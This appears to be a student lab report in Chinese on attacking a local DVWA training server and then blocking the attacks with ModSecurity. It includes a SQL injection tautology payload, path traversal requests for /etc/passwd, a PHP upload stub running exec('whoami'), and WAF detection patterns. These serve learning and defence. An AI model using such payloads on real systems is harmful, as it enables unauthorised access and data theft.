


# 期末專案:物聯網設備的攻擊實測
## Web Attacks漏洞測試
### 1.  測試DVWA/Command Injection
- 正常的命令注入測試


- 有漏洞的命令注入測試

***
####  cat /var/log/apache2/access.log 
```
192.168.10.59 - - [12/Feb/2016:03:22:59 +0800] "GET /DVWA/dvwa/css/main.css HTTP/1.1" 200 1447 "http://192.168.10.66/DVWA/vulnerabilities/exec/" "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/65.0.3325.181 Safari/537.36"
192.168.10.59 - - [12/Feb/2016:03:22:59 +0800] "GET /DVWA/dvwa/images/logo.png HTTP/1.1" 200 5332 "http://192.168.10.66/DVWA/vulnerabilities/exec/" "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/65.0.3325.181 Safari/537.36"
192.168.10.59 - - [12/Feb/2016:03:23:20 +0800] "POST /DVWA/vulnerabilities/exec/ HTTP/1.1" 200 1959 "http://192.168.10.66/DVWA/vulnerabilities/exec/" "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/65.0.3325.181 Safari/537.36"
192.168.10.59 - - [12/Feb/2016:03:23:24 +0800] "GET /DVWA/dvwa/css/main.css HTTP/1.1" 200 1447 "http://192.168.10.66/DVWA/vulnerabilities/exec/" "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/65.0.3325.181 Safari/537.36"
192.168.10.59 - - [12/Feb/2016:03:23:24 +0800] "GET /DVWA/dvwa/js/dvwaPage.js HTTP/1.1" 200 811 "http://192.168.10.66/DVWA/vulnerabilities/exec/" "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/65.0.3325.181 Safari/537.36"
192.168.10.59 - - [12/Feb/2016:03:23:24 +0800] "GET /DVWA/dvwa/images/logo.png HTTP/1.1" 200 5332 "http://192.168.10.66/DVWA/vulnerabilities/exec/" "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/65.0.3325.181 Safari/537.36"
192.168.10.59 - - [12/Feb/2016:03:40:18 +0800] "POST /DVWA/vulnerabilities/exec/ HTTP/1.1" 200 1965 "http://192.168.10.66/DVWA/vulnerabilities/exec/" "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/65.0.3325.181 Safari/537.36"
192.168.10.59 - - [12/Feb/2016:03:40:21 +0800] "GET /DVWA/dvwa/css/main.css HTTP/1.1" 200 1447 "http://192.168.10.66/DVWA/vulnerabilities/exec/" "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/65.0.3325.181 Safari/537.36"
192.168.10.59 - - [12/Feb/2016:03:40:21 +0800] "GET /DVWA/dvwa/js/dvwaPage.js HTTP/1.1" 200 811 "http://192.168.10.66/DVWA/vulnerabilities/exec/" "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/65.0.3325.181 Safari/537.36"
192.168.10.59 - - [12/Feb/2016:03:40:21 +0800] "GET /DVWA/dvwa/images/logo.png HTTP/1.1" 200 5332 "http://192.168.10.66/DVWA/vulnerabilities/exec/" "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/65.0.3325.181 Safari/537.36"
192.168.10.59 - - [12/Feb/2016:03:40:47 +0800] "POST /DVWA/vulnerabilities/exec/ HTTP/1.1" 200 2845 "http://192.168.10.66/DVWA/vulnerabilities/exec/" "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/65.0.3325.181 Safari/537.36"
192.168.10.59 - - [12/Feb/2016:03:40:50 +0800] "GET /DVWA/dvwa/js/dvwaPage.js HTTP/1.1" 200 811 "http://192.168.10.66/DVWA/vulnerabilities/exec/" "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/65.0.3325.181 Safari/537.36"
192.168.10.59 - - [12/Feb/2016:03:40:50 +0800] "GET /DVWA/dvwa/css/main.css HTTP/1.1" 200 1447 "http://192.168.10.66/DVWA/vulnerabilities/exec/" "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/65.0.3325.181 Safari/537.36"
192.168.10.59 - - [12/Feb/2016:03:40:50 +0800] "GET /DVWA/dvwa/images/logo.png HTTP/1.1" 200 5332 "http://192.168.10.66/DVWA/vulnerabilities/exec/" "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/65.0.3325.181 Safari/537.36"
192.168.10.59 - - [12/Feb/2016:03:42:18 +0800] "POST /DVWA/vulnerabilities/exec/ HTTP/1.1" 200 1964 "http://192.168.10.66/DVWA/vulnerabilities/exec/" "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/65.0.3325.181 Safari/537.36"
192.168.10.59 - - [12/Feb/2016:03:42:21 +0800] "GET /DVWA/dvwa/css/main.css HTTP/1.1" 200 1447 "http://192.168.10.66/DVWA/vulnerabilities/exec/" "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/65.0.3325.181 Safari/537.36"
192.168.10.59 - - [12/Feb/2016:03:42:21 +0800] "GET /DVWA/dvwa/js/dvwaPage.js HTTP/1.1" 200 811 "http://192.168.10.66/DVWA/vulnerabilities/exec/" "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/65.0.3325.181 Safari/537.36"
192.168.10.59 - - [12/Feb/2016:03:42:21 +0800] "GET /DVWA/dvwa/images/logo.png HTTP/1.1" 200 5332 "http://192.168.10.66/DVWA/vulnerabilities/exec/" "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/65.0.3325.181 Safari/537.36"
```
***

### 2. 測試DVWA/SQL Injection
- 正常的SQL語法測試:
```sql
SELECT first_name, last_name FROM users WHERE user_id = '1';
```


- SQL Injection 漏洞測試 
```sql
SELECT first_name, last_name FROM users WHERE user_id = '1' OR '1'='1';
```

***
#### cat /var/log/apache2/access.log
```
192.168.10.59 - - [12/Feb/2016:04:20:17 +0800] "GET /DVWA/dvwa/images/logo.png HTTP/1.1" 200 5332 "http://192.168.10.66/DVWA/vulnerabilities/sqli/" "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/65.0.3325.181 Safari/537.36"
192.168.10.59 - - [12/Feb/2016:04:20:17 +0800] "GET /DVWA/vulnerabilities/sqli/ HTTP/1.1" 200 1805 "http://192.168.10.66/DVWA/vulnerabilities/sqli/" "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/65.0.3325.181 Safari/537.36"
192.168.10.59 - - [12/Feb/2016:04:20:17 +0800] "GET /DVWA/dvwa/css/main.css HTTP/1.1" 200 1447 "http://192.168.10.66/DVWA/vulnerabilities/sqli/" "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/65.0.3325.181 Safari/537.36"
192.168.10.59 - - [12/Feb/2016:04:20:17 +0800] "GET /DVWA/dvwa/js/dvwaPage.js HTTP/1.1" 200 810 "http://192.168.10.66/DVWA/vulnerabilities/sqli/" "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/65.0.3325.181 Safari/537.36"
192.168.10.59 - - [12/Feb/2016:04:20:17 +0800] "GET /DVWA/dvwa/images/logo.png HTTP/1.1" 304 183 "http://192.168.10.66/DVWA/vulnerabilities/sqli/" "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/65.0.3325.181 Safari/537.36"
192.168.10.59 - - [12/Feb/2016:04:20:21 +0800] "GET /DVWA/vulnerabilities/sqli/?id=1%27+OR+%271%27%3D%271&Submit=Submit HTTP/1.1" 200 1885 "http://192.168.10.66/DVWA/vulnerabilities/sqli/" "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/65.0.3325.181 Safari/537.36"
192.168.10.59 - - [12/Feb/2016:04:20:21 +0800] "GET /DVWA/dvwa/js/dvwaPage.js HTTP/1.1" 200 810 "http://192.168.10.66/DVWA/vulnerabilities/sqli/?id=1%27+OR+%271%27%3D%271&Submit=Submit" "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/65.0.3325.181 Safari/537.36"
192.168.10.59 - - [12/Feb/2016:04:20:21 +0800] "GET /DVWA/dvwa/css/main.css HTTP/1.1" 200 1447 "http://192.168.10.66/DVWA/vulnerabilities/sqli/?id=1%27+OR+%271%27%3D%271&Submit=Submit" "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/65.0.3325.181 Safari/537.36"
192.168.10.59 - - [12/Feb/2016:04:20:22 +0800] "GET /DVWA/dvwa/images/logo.png HTTP/1.1" 200 5332 "http://192.168.10.66/DVWA/vulnerabilities/sqli/?id=1%27+OR+%271%27%3D%271&Submit=Submit" "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/65.0.3325.181 Safari/537.36"
```
***

### 3. 測試DVWA/File Inclusion
- 正常的網頁GET本地文件


- 有漏洞本地文件測試

***
#### cat /var/log/apache2/access.log
```
192.168.10.59 - - [12/Feb/2016:04:30:54 +0800] "GET /DVWA/dvwa/js/dvwaPage.js HTTP/1.1" 200 811 "http://192.168.10.66/DVWA/vulnerabilities/fi/?page=../../../../etc/passwd" "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/65.0.3325.181 Safari/537.36"
192.168.10.59 - - [12/Feb/2016:04:30:54 +0800] "GET /DVWA/dvwa/css/main.css HTTP/1.1" 200 1447 "http://192.168.10.66/DVWA/vulnerabilities/fi/?page=../../../../etc/passwd" "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/65.0.3325.181 Safari/537.36"
192.168.10.59 - - [12/Feb/2016:04:30:54 +0800] "GET /DVWA/dvwa/images/logo.png HTTP/1.1" 200 5332 "http://192.168.10.66/DVWA/vulnerabilities/fi/?page=../../../../etc/passwd" "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/65.0.3325.181 Safari/537.36"
192.168.10.59 - - [12/Feb/2016:04:31:01 +0800] "GET /DVWA/vulnerabilities/fi/?page=../../../../../etc/passwd HTTP/1.1" 200 1457 "-" "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/65.0.3325.181 Safari/537.36"
192.168.10.59 - - [12/Feb/2016:04:31:01 +0800] "GET /DVWA/dvwa/js/dvwaPage.js HTTP/1.1" 200 811 "http://192.168.10.66/DVWA/vulnerabilities/fi/?page=../../../../../etc/passwd" "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/65.0.3325.181 Safari/537.36"
192.168.10.59 - - [12/Feb/2016:04:31:01 +0800] "GET /DVWA/dvwa/images/logo.png HTTP/1.1" 200 5332 "http://192.168.10.66/DVWA/vulnerabilities/fi/?page=../../../../../etc/passwd" "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/65.0.3325.181 Safari/537.36"
192.168.10.59 - - [12/Feb/2016:04:31:01 +0800] "GET /DVWA/dvwa/css/main.css HTTP/1.1" 200 1447 "http://192.168.10.66/DVWA/vulnerabilities/fi/?page=../../../../../etc/passwd" "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/65.0.3325.181 Safari/537.36"
192.168.10.59 - - [12/Feb/2016:04:31:07 +0800] "GET /DVWA/vulnerabilities/fi/?page=../../../../../../etc/passwd HTTP/1.1" 200 2345 "-" "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/65.0.3325.181 Safari/537.36"
192.168.10.59 - - [12/Feb/2016:04:31:07 +0800] "GET /DVWA/dvwa/js/dvwaPage.js HTTP/1.1" 200 811 "http://192.168.10.66/DVWA/vulnerabilities/fi/?page=../../../../../../etc/passwd" "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/65.0.3325.181 Safari/537.36"
192.168.10.59 - - [12/Feb/2016:04:31:07 +0800] "GET /DVWA/dvwa/images/logo.png HTTP/1.1" 200 5332 "http://192.168.10.66/DVWA/vulnerabilities/fi/?page=../../../../../../etc/passwd" "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/65.0.3325.181 Safari/537.36"
192.168.10.59 - - [12/Feb/2016:04:31:07 +0800] "GET /DVWA/dvwa/css/main.css HTTP/1.1" 200 1447 "http://192.168.10.66/DVWA/vulnerabilities/fi/?page=../../../../../../etc/passwd" "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/65.0.3325.181 Safari/537.36"
```
***
### 4.  測試DVWA/File Upload
上傳的文件對應用程序造成重大風險。許多攻擊的第一步是向系統獲取一些攻擊代碼。那麼攻擊只需要找到一種方法來執行代碼
- 撰寫有代碼的攻擊檔案
```php
<?php
	echo exec('whoami');
?>
```
- 上傳具有攻擊的檔案

- 成功上傳

- 執行上傳後的檔案	

***
#### cat /var/log/apache2/access.log
```
192.168.10.59 - - [12/Feb/2016:05:09:50 +0800] "GET /DVWA/dvwa/images/logo.png HTTP/1.1" 200 5332 "http://192.168.10.66/DVWA/vulnerabilities/upload/" "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/65.0.3325.181 Safari/537.36"
192.168.10.59 - - [12/Feb/2016:05:09:50 +0800] "GET /DVWA/vulnerabilities/upload/ HTTP/1.1" 200 1784 "http://192.168.10.66/DVWA/vulnerabilities/upload/" "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/65.0.3325.181 Safari/537.36"
192.168.10.59 - - [12/Feb/2016:05:09:50 +0800] "GET /DVWA/dvwa/css/main.css HTTP/1.1" 200 1447 "http://192.168.10.66/DVWA/vulnerabilities/upload/" "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/65.0.3325.181 Safari/537.36"
192.168.10.59 - - [12/Feb/2016:05:09:50 +0800] "GET /DVWA/dvwa/js/dvwaPage.js HTTP/1.1" 200 810 "http://192.168.10.66/DVWA/vulnerabilities/upload/" "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/65.0.3325.181 Safari/537.36"
192.168.10.59 - - [12/Feb/2016:05:09:50 +0800] "GET /DVWA/dvwa/images/logo.png HTTP/1.1" 304 183 "http://192.168.10.66/DVWA/vulnerabilities/upload/" "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/65.0.3325.181 Safari/537.36"
192.168.10.59 - - [12/Feb/2016:05:11:15 +0800] "POST /DVWA/vulnerabilities/upload/ HTTP/1.1" 200 1815 "http://192.168.10.66/DVWA/vulnerabilities/upload/" "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/65.0.3325.181 Safari/537.36"
192.168.10.59 - - [12/Feb/2016:05:11:15 +0800] "GET /DVWA/dvwa/js/dvwaPage.js HTTP/1.1" 200 811 "http://192.168.10.66/DVWA/vulnerabilities/upload/" "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/65.0.3325.181 Safari/537.36"
192.168.10.59 - - [12/Feb/2016:05:11:15 +0800] "GET /DVWA/dvwa/css/main.css HTTP/1.1" 200 1447 "http://192.168.10.66/DVWA/vulnerabilities/upload/" "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/65.0.3325.181 Safari/537.36"
192.168.10.59 - - [12/Feb/2016:05:11:15 +0800] "GET /DVWA/dvwa/images/logo.png HTTP/1.1" 200 5332 "http://192.168.10.66/DVWA/vulnerabilities/upload/" "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/65.0.3325.181 Safari/537.36"
192.168.10.59 - - [12/Feb/2016:05:12:41 +0800] "GET /DVWA/hackable/uploads/hack.php HTTP/1.1" 200 211 "-" "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/65.0.3325.181 Safari/537.36"
189.46.194.243 - - [12/Feb/2016:05:16:57 +0800] "GET / HTTP/1.1" 200 11578 "-" "Mozilla/5.0 (Windows NT 10.0; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/52.0.2743.116 Safari/537.36"
```
***
## 安裝modsecurity
mod_security 是 Apache 的保安模組，可以預防多種針對網頁的攻擊，例如執行遠端程式碼, SQL Injection，路徑掃瞄等。
### 1. 安裝並設定
```zsh
sudo apt-get update	# 更新資料庫
sudo apt-get install libapache2-modsecurity -y  # 安裝modesecurity

sudo  service apache2 reload	# 重新啟動apache
sudo apachectl -M | grep --color security2	# 檢查是否安裝並啟動完成

sudo mv /etc/modsecurity/modsecurity.conf-recommended /etc/modsecurity/modsecurity.conf		# 更改設定檔的副檔名
sudo service apache2 reload	# 重新啟動apache

sudo sed -i "s/SecRuleEngine DetectionOnly/SecRuleEngine On/" /etc/modsecurity/modsecurity.conf		#開啟ModSecurity防火牆。它會檢測並阻止該服務器上的任何惡意攻擊
sudo sed -i "s/SecResponseBodyAccess On/SecResponseBodyAccess Off/" /etc/modsecurity/modsecurity.conf	#它會告訴ModSecurity是否會檢查請求。
```
### 2. 新增造訪路徑攻擊字串的規則 
```Bash
sudo vim /etc/apache2/mods-enabled/security2.conf
```
```
<IfModule security2_module>
        # Default Debian dir for modsecurity's persistent data
        SecDataDir /var/cache/modsecurity

        # Include all the *.conf files in /etc/modsecurity.
        # Keeping your local configuration in that directory
        # will allow for an easy upgrade of THIS file and
        # make your life easier
        IncludeOptional /etc/modsecurity/*.conf
        IncludeOptional "/usr/share/modsecurity-crs/*.conf"
        IncludeOptional "/usr/share/modsecurity-crs/activated_rules/*.conf"	#mod_security 的規則設定檔都放在這個目錄
</IfModule>
```
### 3. 複製規則到目錄
```Bash
sudo cp /usr/share/modsecurity-crs/base_rules/modsecurity_crs_41_sql_injection_attacks.conf /usr/share/modsecurity-crs/activated_rules/
sudo service apache2 reload	#重新啟動apache
```
### 4. SQL Injection 防護測試


***
#### cat /var/log/apache2/error.log
```
192.168.10.59 - - [12/Feb/2016:06:46:05 +0800] "GET /DVWA/vulnerabilities/sqli/?id=1%27+OR+%271%27%3D%271&Submit=Submit HTTP/1.1" 403 531 "http://192.168.10.66/DVWA/vulnerabilities/sqli/" "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/65.0.3325.181 Safari/537.36"
^C
root@dic-desktop:~# tail -f /var/log/apache2/error.log
[Fri Feb 12 06:33:08.013077 2016] [:notice] [pid 2555] ModSecurity: LUA compiled version="Lua 5.1"
[Fri Feb 12 06:33:08.013091 2016] [:notice] [pid 2555] ModSecurity: YAJL compiled version="2.1.0"
[Fri Feb 12 06:33:08.013106 2016] [:notice] [pid 2555] ModSecurity: LIBXML compiled version="2.9.2"
[Fri Feb 12 06:33:08.013213 2016] [:notice] [pid 2555] ModSecurity: StatusEngine call: "2.9.0,Apache/2.4.18 (Ubuntu),1.5.1/1.5.2,8.35/8.38 2015-11-23,Lua 5.1,2.9.2,c511a5f77156f1c2833c7c552c066a1e37e9080b"
[Fri Feb 12 06:33:08.843913 2016] [:notice] [pid 2555] ModSecurity: StatusEngine call successfully sent. For more information visit: http://status.modsecurity.org/
[Fri Feb 12 06:33:10.016406 2016] [mpm_prefork:notice] [pid 2556] AH00163: Apache/2.4.18 (Ubuntu) configured -- resuming normal operations
[Fri Feb 12 06:33:10.016605 2016] [core:notice] [pid 2556] AH00094: Command line: '/usr/sbin/apache2'
[Fri Feb 12 06:34:58.369891 2016] [:error] [pid 2570] [client 192.168.10.59] ModSecurity: Access denied with code 403 (phase 2). Pattern match "(?i:([\\\\s'\\"`\\xc2\\xb4\\xe2\\x80\\x99\\xe2\\x80\\x98\\\\(\\\\)]*?)\\\\b([\\\\d\\\\w]++)([\\\\s'\\"`\\xc2\\xb4\\xe2\\x80\\x99\\xe2\\x80\\x98\\\\(\\\\)]*?)(?:(?:=|<=>|r?like|sounds\\\\s+like|regexp)([\\\\s'\\"`\\xc2\\xb4\\xe2\\x80\\x99\\xe2\\x80\\x98\\\\(\\\\)]*?)\\\\2\\\\b|(?:!=|<=|>=|<>|<|>|\\\\^|is\\\\s+not ..." at ARGS:id. [file "/usr/share/modsecurity-crs/activated_rules/modsecurity_crs_41_sql_injection_attacks.conf"] [line "77"] [id "950901"] [rev "2"] [msg "SQL Injection Attack: SQL Tautology Detected."] [data "Matched Data:  '1'='1 found within ARGS:id: 1' OR '1'='1"] [severity "CRITICAL"] [ver "OWASP_CRS/2.2.9"] [maturity "9"] [accuracy "8"] [tag "OWASP_CRS/WEB_ATTACK/SQL_INJECTION"] [tag "WASCTC/WASC-19"] [tag "OWASP_TOP_10/A1"] [tag "OWASP_AppSensor/CIE1"] [tag "PCI/6.5.2"] [hostname "192.168.10.66"] [uri "/DVWA/vulnerabilities/sqli/"] [unique_id "Vr0Mkn8AAQEAAAoKpEMAAAAG"]
[Fri Feb 12 06:35:32.189101 2016] [:error] [pid 2571] [client 192.168.10.59] ModSecurity: Access denied with code 403 (phase 2). Pattern match "(?i:([\\\\s'\\"`\\xc2\\xb4\\xe2\\x80\\x99\\xe2\\x80\\x98\\\\(\\\\)]*?)\\\\b([\\\\d\\\\w]++)([\\\\s'\\"`\\xc2\\xb4\\xe2\\x80\\x99\\xe2\\x80\\x98\\\\(\\\\)]*?)(?:(?:=|<=>|r?like|sounds\\\\s+like|regexp)([\\\\s'\\"`\\xc2\\xb4\\xe2\\x80\\x99\\xe2\\x80\\x98\\\\(\\\\)]*?)\\\\2\\\\b|(?:!=|<=|>=|<>|<|>|\\\\^|is\\\\s+not ..." at ARGS:id. [file "/usr/share/modsecurity-crs/activated_rules/modsecurity_crs_41_sql_injection_attacks.conf"] [line "77"] [id "950901"] [rev "2"] [msg "SQL Injection Attack: SQL Tautology Detected."] [data "Matched Data:  '1'='1 found within ARGS:id: 1' OR '1'='1"] [severity "CRITICAL"] [ver "OWASP_CRS/2.2.9"] [maturity "9"] [accuracy "8"] [tag "OWASP_CRS/WEB_ATTACK/SQL_INJECTION"] [tag "WASCTC/WASC-19"] [tag "OWASP_TOP_10/A1"] [tag "OWASP_AppSensor/CIE1"] [tag "PCI/6.5.2"] [hostname "192.168.10.66"] [uri "/DVWA/vulnerabilities/sqli/"] [unique_id "Vr0MtH8AAQEAAAoLPIsAAAAH"]
[Fri Feb 12 06:46:05.261466 2016] [:error] [pid 2561] [client 192.168.10.59] ModSecurity: Access denied with code 403 (phase 2). Pattern match "(?i:([\\\\s'\\"`\\xc2\\xb4\\xe2\\x80\\x99\\xe2\\x80\\x98\\\\(\\\\)]*?)\\\\b([\\\\d\\\\w]++)([\\\\s'\\"`\\xc2\\xb4\\xe2\\x80\\x99\\xe2\\x80\\x98\\\\(\\\\)]*?)(?:(?:=|<=>|r?like|sounds\\\\s+like|regexp)([\\\\s'\\"`\\xc2\\xb4\\xe2\\x80\\x99\\xe2\\x80\\x98\\\\(\\\\)]*?)\\\\2\\\\b|(?:!=|<=|>=|<>|<|>|\\\\^|is\\\\s+not ..." at ARGS:id. [file "/usr/share/modsecurity-crs/activated_rules/modsecurity_crs_41_sql_injection_attacks.conf"] [line "77"] [id "950901"] [rev "2"] [msg "SQL Injection Attack: SQL Tautology Detected."] [data "Matched Data:  '1'='1 found within ARGS:id: 1' OR '1'='1"] [severity "CRITICAL"] [ver "OWASP_CRS/2.2.9"] [maturity "9"] [accuracy "8"] [tag "OWASP_CRS/WEB_ATTACK/SQL_INJECTION"] [tag "WASCTC/WASC-19"] [tag "OWASP_TOP_10/A1"] [tag "OWASP_AppSensor/CIE1"] [tag "PCI/6.5.2"] [hostname "192.168.10.66"] [uri "/DVWA/vulnerabilities/sqli/"] [unique_id "Vr0PLX8AAQEAAAoBZP8AAAAA"]
```
#### cat /var/log/apache2/modsec_audit.log
```
--fdd0ea7d-A--
[12/Apr/2018:16:00:04 +0800] Ws8SBH8AAQEAAAu9E-gAAAAF 127.0.0.1 38636 127.0.0.1 80
--fdd0ea7d-B--
GET /DVWA/vulnerabilities/sqli/?id=1%27+OR+%271%27%3D%271%27&Submit=Submit HTTP/1.1
Host: 127.0.0.1
Connection: keep-alive
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (X11; Linux armv7l) AppleWebKit/537.36 (KHTML, like Gecko) Ubuntu Chromium/65.0.3325.181 Chrome/65.0.3325.181 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8
Referer: http://127.0.0.1/DVWA/vulnerabilities/sqli/
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-TW,zh;q=0.9,en-US;q=0.8,en;q=0.7
Cookie: security=low; PHPSESSID=ebpjv3g190pn00eh6eg8cb2a23

--fdd0ea7d-F--
HTTP/1.1 403 Forbidden
Content-Length: 310
Keep-Alive: timeout=5, max=100
Connection: Keep-Alive
Content-Type: text/html; charset=iso-8859-1

--fdd0ea7d-E--
<!DOCTYPE HTML PUBLIC "-//IETF//DTD HTML 2.0//EN">
<html><head>
<title>403 Forbidden</title>
</head><body>
<h1>Forbidden</h1>
<p>You don't have permission to access /DVWA/vulnerabilities/sqli/
on this server.<br />
</p>
<hr>
<address>Apache/2.4.18 (Ubuntu) Server at 127.0.0.1 Port 80</address>
</body></html>

--fdd0ea7d-H--
Message: Access denied with code 403 (phase 2). Pattern match "(^[\"'`\xc2\xb4\xe2\x80\x99\xe2\x80\x98;]+|[\"'`\xc2\xb4\xe2\x80\x99\xe2\x80\x98;]+$)" at ARGS:id. [file "/usr/share/modsecurity-crs/activated_rules
/modsecurity_crs_41_sql_injection_attacks.conf"] [line "64"] [id "981318"] [rev "2"] [msg "SQL Injection Attack: Common Injection Testing Detected"] [data "Matched Data: ' found within ARGS:id: 1' OR '1'='1'"] [
severity "CRITICAL"] [ver "OWASP_CRS/2.2.9"] [maturity "9"] [accuracy "8"] [tag "OWASP_CRS/WEB_ATTACK/SQL_INJECTION"] [tag "WASCTC/WASC-19"] [tag "OWASP_TOP_10/A1"] [tag "OWASP_AppSensor/CIE1"] [tag "PCI/6.5.2"]
Action: Intercepted (phase 2)
Stopwatch: 1523520004282733 5310 (- - -)
Stopwatch2: 1523520004282733 5310; combined=2047, p1=1382, p2=636, p3=0, p4=0, p5=26, sr=331, sw=3, l=0, gc=0
Response-Body-Transformed: Dechunked
